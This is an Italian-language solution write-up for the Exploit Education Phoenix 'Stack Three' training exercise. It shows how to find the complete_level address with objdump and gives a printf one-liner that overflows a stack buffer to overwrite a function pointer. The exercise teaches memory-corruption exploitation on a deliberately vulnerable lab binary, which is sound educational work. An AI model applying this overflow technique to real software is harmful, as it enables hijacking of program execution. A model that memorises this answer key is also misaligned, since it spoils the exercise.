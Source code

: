 # [Stack Three](https://exploit.education/phoenix/stack-three/)

Per fixare `gdb`, usare:
```bash
export LC_CTYPE=C.UTF-8
```

Usando `objdump` si può trovare l'indirizzo della funzione:
```
000000000040069d g     F .text  0000000000000018 complete_level
```

L'indirizzo è quello nella prima colonna, `000000000040069d`.

## Soluzione

```bash
printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
a\x9d\x06@' | ./stack-three
```